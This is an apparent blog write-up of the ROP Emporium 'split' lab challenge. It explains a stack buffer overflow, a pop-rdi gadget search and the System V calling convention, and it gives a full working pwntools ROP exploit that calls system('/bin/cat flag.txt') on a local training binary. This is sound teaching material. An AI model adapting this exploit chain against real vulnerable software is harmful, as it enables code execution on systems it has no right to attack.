 # split

_useful isn't that useful here._

This one is slightly more complicated, but not by much. Here's where we really get into using gadgets to `ret` our way to the finish line.

Opening the file in `rizin` (I use Cutter because I'm a worthless asshole too stupid to use the command line) we see three things.

```text
sym.main
sym.pwnme
sym.usefulFunction
```

Cool. This looks like last time. Let's check `pwnme` and `usefulFunction`:

```c
void pwnme(void)
{
    char buf [32];
    
    memset(buf, 0, 0x20);
    puts("Contriving a reason to ask user for data...");
    printf(0x40083c);
    read(0, buf, 0x60);
    puts("Thank you!");
    return;
}
```

```c
void usefulFunction(void)
{
    system("/bin/ls");
    return;
}
```

This looks a lot like last time, but now we have a problem. `usefulFunction` calls `system()` like we hope it would, but it runs `ls` instead of `cat flag.txt` like we hoped.

Alright. Cool. Let's take stock.

We need to be able to control two main things:

- the call to `system`,
- the parameter passed to it.

And we do this by overwriting the stack.

We can do this with [return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming). Essentially, we look for gadgets - small pieces of code that usually end with a `ret` instruction. This takes advantage of how `ret` works: It pops the saved instruction pointer off the stack and into `rip`, and jumps to it. By overwriting the stack with addresses of such gadgets, we can to chain little bits of code together to run arbitrary code, setting up for us to pop our shell. It works like this:

1. We overwrite the saved `rip` with the address of a gadget by taking advantage of a stack buffer overflow.
2. When the current function returns, `ret` is executed, so the overwritten `rip` is popped off the stack and we jump to the gadget, executing whatever code before `ret`-ing again.
3. If we fed in the address of another gadget before that, we'll pop _that_ off, and execute _that_ gadget, and so on and so forth.
4. Rinse and repeat until profit.

Great. So we just overwrite the stack with addresses. That settles our call to `system`. What's not settled is the parameter we need to pass to it.

This is where gadgets come into play. We can run `strings` to check for any strings that we can use:

```text
$ strings split | grep bin

/bin/ls
/bin/cat flag.txt
```

Interesting. He was kind enough to leave that in there.

Looking at Cutter, we can figure out the address of that string.

```text
;-- str.bin_cat_flag.txt:
;-- usefulString:
0x00601060          .string "/bin/cat flag.txt" ; len=18
```

It even has the `usefulString` symbol attached to it. How nice.

Great. We have the string to pass, and we have the call to `system` (thankfully imported by `usefulFunction`). Now we just need to mash them together in glorious ROP glory.

The [AMD64 System V calling convention](https://wiki.osdev.org/System_V_ABI#x86-64) states that parameters to functions are passed in registers, specifically `rdi`, `rsi`, `rdx`, `rcx`, `r8`, and `r9`, with any additional parameters pushed on the stack in reverse order. Knowing this, we need to have `rdi` point to our `usefulString` right before the call to `system`.

We can do this with a gadget. Bet you were wondering when we were gonna circle back to this.

Since we control the stack, we have to pass in this address on the stack and somehow get it into `rdi`. Of course, we can do this with the `pop` instruction.

So, we're looking for a gadget that executes `pop rdi` and then `ret`. This pops the top of the stack into `rdi`, then returns. Luckily, Cutter has this built right in.

```text
[0x00400742]> /a pop rdi, ret
Searching 1 byte in [0x601090-0x6010d8]
hits: 0
Searching 1 byte in [0x400000-0x4009e0]
hits: 12
Searching 1 byte in [0x601072-0x601088]
hits: 0
Searching 1 byte in [0x600e10-0x601072]
hits: 0
Searching 1 byte in [0x100000-0x1f0000]
hits: 0
fs hits
0x004003e9 hit0_0 5f
0x004003ea hit0_1 5f
0x004003ef hit0_2 5f
0x004003f5 hit0_3 5f
0x00400400 hit0_4 5f
0x00400407 hit0_5 5f
0x00400408 hit0_6 5f
0x0040040d hit0_7 5f
0x00400413 hit0_8 5f
0x00400414 hit0_9 5f
0x004007c3 hit0_10 5f
0x00400801 hit0_11 5f 
```

So many hits. Let's pick `0x4007c3` as our gadget of choice, since looking at Cutter, we know it's in a region marked as executable.

But when we navigate to the function:

```text
0x004007c0      415e                   pop r14
0x004007c2      415f                   pop r15
0x004007c4      c3                     ret
```

What gives?

Turns out, because x86_64 is a multibyte instruction set, instructions don't have to be aligned. We can just jump right into the middle of an instruction, and the CPU, blindly assuming it's at the start of an instruction, will happily interpret it as a completely different instruction.

We can always do a sanity check to make sure we're not misinterpreting this. When we assemble this gadget into machine code:

```python
>>> from pwn import *
>>> context.arch = "amd64"
>>> asm("pop rdi\nret")
b'_\xc3' # the byte representation of '_' is 0x5f, so this is 0x5f 0xc3.
```

Looking at `0x4007c3`, we see `0x5f 0xc3`. Exactly what we need.

Cool. We can do our exploit now.

```python
from pwn import *

# this is important so we can parse the ELF correctly
context.arch = "amd64"
elf = context.binary = ELF('./split')

# overflow the stack with these
POP_RDI_GADGET = p64(0x4007c3)
CATFLAG = p64(0x601060)
# interestingly enough, this is the address of system in the PLT. 
# what's the PLT, you ask? research it, it's important.
SYSTEM = p64(elf.symbols.system)

# overflow the buffer
payload = b'A' * 40

# when pwnme returns, pop this address into rip and jump to it
payload += POP_RDI_GADGET
# put this on the stack to be popped into rdi by above gadget
payload += CATFLAG
# when said gadget returns, pop this into rip and jump to it
payload += SYSTEM

conn = process(elf.path)

conn.recvuntil(b'> ')

conn.send(payload)

print(conn.recvall())
```

Running it:

```text
$ python exploit.py

[*] '/home/sammy/Projects/binexp/ropemporium/split/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/sammy/Projects/binexp/ropemporium/split/split': pid 193724
[+] Receiving all data: Done (44B)
[*] Process '/home/sammy/Projects/binexp/ropemporium/split/split' stopped with exit code -11 (SIGSEGV) (pid 193724)
b'Thank you!\nROPE{a_placeholder_32byte_flag!}\n'
```

¯\\\_(ツ)_/¯
